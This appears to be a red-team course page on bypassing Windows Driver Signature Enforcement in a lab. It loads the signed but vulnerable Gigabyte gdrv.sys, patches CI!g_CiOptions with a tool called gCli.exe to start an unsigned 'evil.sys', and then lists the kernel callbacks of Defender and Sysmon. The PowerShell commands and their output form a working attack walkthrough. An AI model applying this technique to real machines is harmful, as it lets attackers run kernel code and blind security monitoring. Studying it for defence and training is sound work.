 Loading your own driver can be tricky due to Driver Signature Enforcement (DSE) - a protection that blocks a kernel driver from loading if it's not signed by a trusted authority.  The "legitimate" way to do this is to enable [Test Signing](https://docs.microsoft.com/en-us/windows-hardware/drivers/install/the-testsigning-boot-configuration-option) but there are some significant downsides.

1.  A "Test Mode" watermark is displayed on the desktop.
2.  A reboot is required for changes to take effect.

  

This is the case on the Attacker Windows VM but not on WKSTN-1.

We can see that `evil.sys` does not have a valid signature (it's test signed with the Windows Driver Kit).  We can create a service but not start it.

```
PS C:\> hostname; whoami
wkstn-1
rto2\cbridges

PS C:\> Get-AuthenticodeSignature -FilePath C:\evil.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
511197FFE44D79226828B9404B1878110D317515  UnknownError                           evil.sys

PS C:\> sc.exe create evilDriver type= kernel binPath= C:\evil.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start evilDriver
[SC] StartService FAILED 577:
```

Windows cannot verify the digital signature for this file. A recent hardware or software change might have installed a file that is signed incorrectly or damaged, or that might be malicious software from an unknown source.

![[102. Driver Signature Enforcement.png]]

On the other hand - `gdrv.sys` is a legitimate driver signed by Gigabyte in 2017 which we can load.

```
PS C:\> Get-AuthenticodeSignature -FilePath C:\gdrv.sys

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
E31B1CE555B78944D20F160DF3BE831F1C638AE3  Valid                                  gdrv.sys

PS C:\> sc.exe create gigabyte type= kernel binPath= C:\gdrv.sys
[SC] CreateService SUCCESS

PS C:\> sc.exe start gigabyte

SERVICE_NAME: gigabyte
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :
```

![[103. Driver Signature Enforcement.png]]

This driver has two vulnerabilities (CVE-2018-19320 & CVE-2018-19321) which provide arbitrary memory read/write from userland.  During runtime, the driver enforcement policy is located in memory at **CI!g_CiOptions** (where CI is the "Code Integrity Module" DLL, `C:\Windows\System32\ci.dll`).

When a service start request is submitted, this policy value is checked and the driver will be allowed to start (or not).  With an arbitrary write primitive in kernel memory, we can "simply" overwrite the policy value.  This is nicely wrapped up in `gClie.exe`.  Use `-l` to show the relevant addresses.

There's no export for `g_CiOptions`, so the address is calculated based on an offset from `CiInitialize`.

```
PS C:\> .\gCli.exe -l
FFFFF80772D20000 (CI.dll)
FFFFF80772D5D140 (Ci!CiInitialize)
FFFFF80772D5C004 (CI!g_CiOptions)
```

  

Use `-d` to disable driver signing, start the evil driver, and then re-enable driver signing with `-e`.

```
PS C:\> .\gCli.exe -d
[+] Driver Signing has been DISABLED!

PS C:\> sc.exe start evilDriver

SERVICE_NAME: evilDriver
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :

PS C:\> .\gCli.exe -e
[+] Driver Signing has been ENABLED!

PS C:\> .\evilCli.exe -l
[*] Process Callbacks
[00] 0xfffff80772e16540 (cng.sys + 0x6540)
[01] 0xfffff807735b8650 (xen.sys + 0x8650)
[02] 0xfffff80773a95d60 (WdFilter.sys + 0x45d60)
[03] 0xfffff80772c5b4b0 (ksecdd.sys + 0x1b4b0)
[04] 0xfffff80773e7b550 (tcpip.sys + 0x4b550)
[05] 0xfffff807742b88e0 (SysmonDrv.sys + 0x88e0)
[06] 0xfffff80772d97820 (CI.dll + 0x77820)
[07] 0xfffff8077473d1c0 (dxgkrnl.sys + 0xd1c0)
[08] 0xfffff807758eacf0 (peauth.sys + 0x3acf0)
[*] Thread Callbacks
[00] 0xfffff80773a974a0 (WdFilter.sys + 0x474a0)
[01] 0xfffff80773a97200 (WdFilter.sys + 0x47200)
[02] 0xfffff807742b80d0 (SysmonDrv.sys + 0x80d0)
[03] 0xfffff80775c81010 (mmcss.sys + 0x1010)
[*] LoadImage Callbacks
[00] 0xfffff807735b8120 (xen.sys + 0x8120)
[01] 0xfffff807735f3240 (EC2WinUtilDriver.sys + 0x3240)
[02] 0xfffff80773a96710 (WdFilter.sys + 0x46710)
[03] 0xfffff807742bdc10 (SysmonDrv.sys + 0xdc10)
[04] 0xfffff80774e1e940 (ahcache.sys + 0x1e940)
```
  

  The kernel will bug check the in-memory value against the boot policy.  If it sees a difference, the machine will BSOD.  If you patch the policy value, restore it ASAP.

  

You can dive deeper into drivers by taking our [Offensive Driver Development](https://training.zeropointsecurity.co.uk/courses/offensive-driver-development) course.

